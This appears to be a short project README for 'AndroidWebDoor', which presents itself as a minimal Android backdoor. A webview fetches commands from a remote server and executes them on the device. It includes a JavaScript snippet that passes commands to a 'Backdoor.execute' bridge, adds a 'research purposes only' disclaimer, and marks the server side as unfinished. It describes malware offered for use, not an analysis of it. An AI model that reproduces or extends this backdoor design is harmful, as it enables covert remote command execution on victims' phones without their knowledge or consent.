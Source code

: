 # AndroidWebDoor

For research purposes only !!

Minimalistic Android Backdoor based on a single webview which fetches and executes commands from a remoter server.
From Server's side, simply add javascript code that sends the command to the client:


<script type="text/javascript">
    function execCmd(cmd) {
        Backdoor.execute(cmd);
    }
</script>


TODO: Implement the server side code.
